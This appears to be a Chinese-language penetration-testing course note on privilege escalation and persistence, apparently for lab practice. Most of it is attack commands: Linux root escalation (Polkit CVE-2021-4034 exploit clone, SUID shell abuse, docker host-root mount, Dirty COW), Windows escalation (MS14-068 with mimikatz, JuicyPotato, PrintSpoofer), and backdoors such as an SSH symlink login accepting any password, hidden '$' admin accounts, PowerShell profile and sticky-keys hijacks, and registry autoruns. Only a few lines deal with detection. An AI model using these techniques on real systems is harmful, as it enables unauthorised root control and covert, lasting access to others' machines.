






day5-内网渗透基础三（下午：权限提升、权限维持）
权限提升
Linux
通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限，如在iis就是iis用户组权限，在 apache 就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信息， ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理员权限。
提升为root
Polkit漏洞提权
介绍
Polkit（PolicyKit）是类Unix系统中一个应用程序级别的工具集，通过定义和审核权限规则，实现不同优先级进程间的通讯。pkexec是Polkit开源应用框架的一部分，可以使授权非特权用户根据定义的策略以特权用户的身份执行命令。
描述：
权限提升漏洞（CVE-2021-4034)是由于pkexec无法正确处理调用参数，从而将环境变量作为命令执行，具有任意用户权限的攻击者都可以在默认配置下通过修改环境变量来利用此漏洞，从而获得受影响主机的root权限
1 | git clone https://github.com/berdav/CVE-2021-4034.git |
SUID提权
SUID是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行 时，使调用者暂时获得该文件拥有者的权限。也就是如果ROOT用户给某个可执行文件加了S权限，那么 该执行程序运行的时候将拥有ROOT权限。 以下命令可以发现系统上运行的所有SUID可执行文件
复现：
给find添加suid
1 | which find //查找find的位置 |
以下命令可以发现系统上运行的所有SUID可执行文件
1 | find / -perm -u=s -type f 2>/dev/null |

利用
1 | find . -exec /bin/sh -p \; -quit |
常见suid提权文件
1 | nmap、vim、find、more、less、bash、cp、Nano、mv、awk、man、weget |
sudo提权
1 | //让zhinan能够拥有root的权限 |
脏牛提权 CVE-2016-5195
脏牛漏洞，又叫Dirty COW，存在Linux内核中已经有长达9年的时间，在2007年发布的Linux内核版本中就已经存在此漏洞。Linux kernel团队在2016年10月18日已经对此进行了修复。
漏洞范围：Linux内核 >= 2.6.22（2007年发行，到2016年10月18日才修复）
简要分析：该漏洞具体为，Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时产生了竞争条件（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。
exp：https://github.com/gbonacini/CVE-2016-5195
1 | uname -a |

准备的靶机版本较高，暂不演示
docker 提权
docker是一个容器 可以在同一台机子虚拟多台服务。
前提是添加在docker组
1 | 将zhinan添加到docker组 |
输入命令id 和groups查询当前用户信息和组信息 发现存在docker组
1 | id |

下载并且运行样例alpine
1 | docker run -v /:/mnt -it alpine //运行alpine并且把宿主机所有的文件挂在到/mnt 直接进入这个容器里面 |
还可以编辑宿主机的定时任务，利用定时任务给宿主机进行执行命令
windows
ms-14-068提升为域管理
MS14-068 是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC（表示所有用户权限的结构）。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证
简单来说就是：
windows域中使用kerberos协议过程中，为了让SS服务器判断Client是否有权限访问服务，引入了PAC机制。构造PAC也是这个漏洞的根本。
在请求AS时，将require_PAC设置成False。
在请求TGS时，构造PAC，然后使用MD5签名（PAC尾部的签名算法可以任意指定），PAC并没有放在TGT中发送，而是在请求包的其他位置（但是还是可以解析）。
TGS_REP返回的不是会话密钥，而是返回的带PAC的TGT（微软的锅
查看补丁状况
1 | systeminfo|find "KB3011780" |
获取用户名、密码、SID
1 | whoami /all |
攻击
1 | ms14-068.exe -u user -p user_password -s sid -d domain_ip |
攻击前拒绝访问，使用MS14-068.exe生成了.ccache文件
使用mimikatz传递票据
1 | kerberos::ptc TGT_web.com.ccache |
1 | dir \\dc.hackbox.com\c$ |
提升为system
1 | systeminfo > 1.txt |
烂土豆提权（CVE-2016-3225）
JuicyPotato_x64.exe
1 | JuicyPotato_x64.exe whoami |
CVE-2020-0787提权
BitsArbitraryFileMoveExploit.exe
1 | BitsArbitraryFileMoveExploit.exe |
PrintSpoofer提权
Windows Print Spooler管理所有本地和网络打印队列，控制所有打印工作。
1 | PrintSpoofer.exe -i -c whoami |
权限维持技术
linux权限维持
添加suid后门
当一个文件所属主的x标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以 root身份执行的
1 | 1、SUID权限仅对二进制程序有效。 |
1 | 创建suid权限的文件 |

1 | /tmp/.houmen |
检测：查找具有suid权限的文件即可
1 | find / -perm +4000 -ls |
SSH 软连接后门
软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过 程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:
1 | ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345 |

1 | ssh root@192.168.88.104 -p 12345 |

SSH 公钥免密码登陆
1 | ssh-keygen -t rsa //生成公钥 |
将id_rsa.pub内容放到目标.ssh/authorized_keys里
1 | mkdir /root/.ssh |
1 | ssh -i id_rsa root@192.168.88.104 |
键盘记录
Rootkit
rootkit分为内核级和应用级两种:内核级的比如：Diamorphine，应用级的比如：Mafix Mafix 是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现远程登陆的特点是配置简单并 可以自定义验证密码和端口号。应用级rookit，主要替换ls、ps、netstat命令来隐藏文件 检测：使用相关检测工具，比如：unhide
https://blog.csdn.net/qq_53742230/article/details/125917148
windows权限维持
影子账户
通常在拿到服务器后会创建一个带$符号的账户，因为在常规cmd下是无法查看到的。
影子账户，顾名思义就是隐藏的账户，在“控制面板-用户账户”里面是看不见，但却有管理员权限的账户
复现:
第一步：创建一个带$符号的账户
1 | net user garck$ abc123qq.. /add |
第二步：打开注册表
1 | regedit |
garck$对应的是0x3ea，管理员对应的是0x1f4
将管理员对应的F项的值，复制粘贴到garck$用户的对应F项的值。

第三步：导出用户及对应的项的注册表文件,分别命名为1.reg和2.reg，删除掉用户。
1 | net user garck$ /del |
第四步：重新导入，分别双击reg文件即可。

查看控制面板没发现用户
第五步：登陆目标服务器，利用影子账号。
首先，管理账户中并没有garck$账户
远程登陆
powershell配置文件后门
简介
Windows PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用 .NET Framework的强大功能。
Powershell配置文件其实就是一个powershell脚本，他可以在每次运行powershell的时候自动运行，所以可以通过向该文件写入自定义的语句用来长期维持权限。
复现
第一步：准备1.bat脚本，内容为：
1 | net user garck1 abc123QQ… /add & net localgroup administrators garck1 /add |
第二步：打开Windows PowerShell ，输入以下命令
1 | echo $profile # 查看当前是否存在配置文件。 |
第三步：重新打开powershell就会自动执行
映像劫持技术
“映像劫持”，也被称为“IFEO”（Image File Execution Options），在WindowsNT架构的系统里，IFEO的本意是为一些在默认系统环境中运行时可能引发错误的程序执行体提供特殊的环境设定。
当一个可执行程序位于IFEO的控制中时，它的内存分配则根据该程序的参数来设定，而WindowsN T架构的系统能通过这个注册表项使用与可执行程序文件名匹配的项目作为程序载入时的控制依据，最终得以设定一个程序的堆管理机制和一些辅助机制等。
出于简化原因，IFEO使用忽略路径的方式来匹配它所要控制的程序文件名，所以程序无论放在哪个路径，只要名字没有变化，它就运行出问题。
简单点说，当你打开的是程序A，而运行的却是程序B。
实战：
1 | regedit |
添加成功之后，按五次shift键可以唤起cmd，删除之后就恢复原样了
shift后门
辅助功能提供了其他选项（屏幕键盘、放大镜、屏幕阅读），可以帮助人更轻松地使用Windows操作系统，但是此功能可能会被滥用，以在已启用RDP且已获得管理员级别权限的主机上实现持久性。
第一步：将sethc.exe拥有者改为administrator
第二步：输入命令
1 | move C:\windows\system32\sethc.exe C:\windows\system32\sethc1.exe |

第三步：连续按5次shift
远程连接之后
1 | explorer |
除了shift之外，还有以下这些也可以尝试
恢复：
1 | Copy C:\windows\system32\sethc1.exe C:\windows\system32\sethc.exe |
注册表自启动
简介
注册表是windows操作系统中的一个核心数据库，其中存放着各种参数，直接控制着windows的启动、硬件驱动程序的装载以及一些windows应用程序的运行，从而在整个系统中起着核心作用。
这些作用包括了软、硬件的相关配置和状态信息，比如注册表中保存有应用程序和资源管理器外壳的初始条件、首选项和卸载数据等，联网计算机的整个系统的设置和各种许可，文件扩展名与应用程序的关联，硬件部件的描述、状态和属性，性能记录和其他底层的系统状态信息，以及其他数据等。
复现
第一步：输入命令
1 | regedit |
第二步：重启服务器，自动会打开notepad.exe